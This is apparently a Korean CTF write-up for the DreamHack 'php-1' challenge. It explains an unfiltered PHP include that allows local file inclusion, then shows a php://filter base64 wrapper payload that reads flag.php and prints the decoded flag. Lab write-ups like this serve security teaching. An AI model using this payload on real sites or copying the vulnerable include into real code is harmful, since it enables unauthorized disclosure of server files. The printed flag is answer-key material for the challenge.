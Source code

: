 # [DreamHack] php-1

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> php로 작성된 Back Office 서비스입니다.
>
> LFI 취약점을 이용해 플래그를 획득하세요. 플래그는 `/var/www/uploads/flag.php`에 있습니다.
>
> Release: [php-1.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8569448/php-1.zip)

## Analysis

```php
      <?php
          include $_GET['page']?$_GET['page'].'.php':'main.php';
      ?>
```

`index.php`에서 임의의 `php` 파일을 `include`할 수 있는데, `page`에 전달되는 값이 필터링을 거치지 않아서 LFI 취약점이 발생한다. `/index.php?page=/var/www/uploads/flag`로 접속해서 `flag.php`를 `include`해보면 다음의 결과를 얻는다.

![image](https://user-images.githubusercontent.com/104156058/165457726-75fb9185-c15b-415b-a861-9ad60133be8a.png)

```html
    <div class="container">
      can you see $flag?    </div>
```

`Can you see $flag?`라는 문자열이 뜬다. `flag.php`에 플래그가 있다고는 했는데 출력되지는 않는다.

## Exploit

PHP wrapper를 이용해서 `flag.php` 파일의 내용을 읽어올 수 있다. `/index.php?page=php://filter/convert.base64-encode/resource=/var/www/uploads/flag`로 접속하면 뒤에 `.php`가 붙어서 `flag.php` 파일의 내용을 base64로 인코딩해서 출력하게 된다.

```html
    <div class="container">
      PD9waHAKCSRmbGFnID0gJ0RIe2JiOWRiMWYzMDNjYWNmMGYzYzkxZTBhYmNhMTIyMWZmfSc7Cj8+CmNhbiB5b3Ugc2VlICRmbGFnPw==    </div>
```

디코딩하면 플래그를 획득할 수 있다.

```php
<?php
	$flag = 'DH{bb9db1f303cacf0f3c91e0abca1221ff}';
?>
can you see $flag?
```